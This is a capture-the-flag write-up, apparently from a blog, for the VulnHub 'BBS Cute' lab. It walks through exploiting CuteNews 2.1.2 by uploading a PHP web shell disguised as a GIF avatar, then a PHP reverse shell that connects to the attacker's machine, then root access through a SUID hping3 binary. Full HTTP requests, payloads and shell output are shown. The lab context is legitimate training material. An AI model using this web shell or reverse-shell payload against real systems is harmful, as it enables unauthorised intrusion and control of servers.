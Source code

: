 ```yaml
---
layout: post
author: H4
---
```


# PG VULNHUB BBS Cute
[Details](https://www.vulnhub.com/entry/bbs-cute-102,567/)
## discovery
### portscan
Starting with a simple port scan to identify the attack surface.
```bash
$ nmap -Pn 192.168.55.128
```
- 22 (OpenSSH)
- 80 (Apache)
- 88 (Nginx)
- 110 (pop3)
- 995 (pop3)

### web application
Use some kind of dir busting tool like gobuster or dirb to identify the `index.php`  
Cutenews 2.1.2 is installed on the target.

---

## exploitation
```cutenews 2.1.2 is vulnerable to an rce via file upload (https://www.exploit-db.com/exploits/48800)```

1. register a new account
2. perform an avatar upload to upload a shell

```http
POST /index.php HTTP/1.1
Host: 192.168.55.128
Content-Length: 1199
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.55.128
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryPcKAGDM5KHHUBCDz
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.55.128/index.php?mod=main&opt=personal
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: CUTENEWS_SESSION=qujdjltcojbtb3glgfsc3guqum
Connection: close

------WebKitFormBoundaryPcKAGDM5KHHUBCDz
Content-Disposition: form-data; name="mod"

main
------WebKitFormBoundaryPcKAGDM5KHHUBCDz
Content-Disposition: form-data; name="opt"

personal
------WebKitFormBoundaryPcKAGDM5KHHUBCDz
Content-Disposition: form-data; name="__signature_key"

61617a044cb8af8982f290744a00cd7a-hacker
------WebKitFormBoundaryPcKAGDM5KHHUBCDz
Content-Disposition: form-data; name="__signature_dsi"

db5cf5e82f5e647c292b0a2587709c4f
------WebKitFormBoundaryPcKAGDM5KHHUBCDz
Content-Disposition: form-data; name="editpassword"


------WebKitFormBoundaryPcKAGDM5KHHUBCDz
Content-Disposition: form-data; name="confirmpassword"


------WebKitFormBoundaryPcKAGDM5KHHUBCDz
Content-Disposition: form-data; name="editnickname"

hacker
------WebKitFormBoundaryPcKAGDM5KHHUBCDz
Content-Disposition: form-data; name="avatar_file"; filename="shell.php"
Content-Type: image/gif

GIF8;\n<?php system($_REQUEST['cmd']); ?>

------WebKitFormBoundaryPcKAGDM5KHHUBCDz
Content-Disposition: form-data; name="more[site]"


------WebKitFormBoundaryPcKAGDM5KHHUBCDz
Content-Disposition: form-data; name="more[about]"


------WebKitFormBoundaryPcKAGDM5KHHUBCDz--

```

The Server responds with a `200` message, which might be a good indication that everything worked as expected.

```http
HTTP/1.1 200 OK
Date: Thu, 20 Jan 2022 20:47:07 GMT
Server: Apache/2.4.38 (Debian)
Expires: Sat, 26 Jul 1997 05:00:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
X-Frame-Options: sameorigin
Last-Modified: Thu, 20 Jan 2022 20:47:07 GMT
Cache-Control: post-check=0, pre-check=0
Accept-Charset: UTF-8
Vary: Accept-Encoding
Content-Length: 7553
Connection: close
Content-Type: text/html; charset=UTF-8

<!DOCTYPE html>
<html lang="en">
...
```

Test command execution.

```http
GET /uploads/avatar_hacker_shell.php?cmd=whoami HTTP/1.1
Host: 192.168.55.128
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: CUTENEWS_SESSION=qujdjltcojbtb3glgfsc3guqum
Connection: close
```

```http
HTTP/1.1 200 OK
Date: Thu, 20 Jan 2022 20:52:09 GMT
Server: Apache/2.4.38 (Debian)
Content-Length: 16
Connection: close
Content-Type: text/html; charset=UTF-8

GIF8;\nwww-data
```

It worked!

---

## post exploitation
### get reverse shell
We are using a simple `PHP` based reverse shell here.  
payload: ```php -r '$sock=fsockopen("192.168.49.89",443);exec("/bin/sh -i <&3 >&3 2>&3");'```

#### start listener on the attacking machine
```bash
$ nc -lvp 443
listening on [any] 443 ...
```

#### trigger reverse shell
```http
GET /uploads/avatar_hacker_shell.php?cmd=php+-r+'$sock%3dfsockopen("192.168.49.55",443)%3bexec("/bin/sh+-i+<%263+>%263+2>%263")%3b' HTTP/1.1
Host: 192.168.55.128
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: CUTENEWS_SESSION=qujdjltcojbtb3glgfsc3guqum
Connection: close
````

#### catch connect from target
```bash
$ nc -lvp 443
listening on [any] 443 ...
192.168.55.128: inverse host lookup failed: Unknown host
connect to [192.168.49.55] from (UNKNOWN) [192.168.55.128] 36152
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

### get first flag
```bash
$ pwd
/var/www
$ cat local.txt
13e7c6be29c**********413f552260ec
```
-> ```13e7c6be29c*********413f552260ec```

### privilege escalation
Looking for SUID binaries.
```bash
$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
...
-rwsr-sr-x 1 root root 156808 Sep  6  2014 /usr/sbin/hping3
...
```
Looking on [gtfobins](https://gtfobins.github.io/) on how to exploit `hping3` to get root access

$ /usr/sbin/hping3
hping3> /bin/sh -p
# whoami
root
```
We got root!

### get second flag
```bash
# cd /root
# ls
proof.txt  root.txt
# cat root.txt
Your flag is in another file...
# cat proof.txt
a39413f0559f*********ac83c86deb
```
-> ```a39413f0559f**********ac83c86deb```

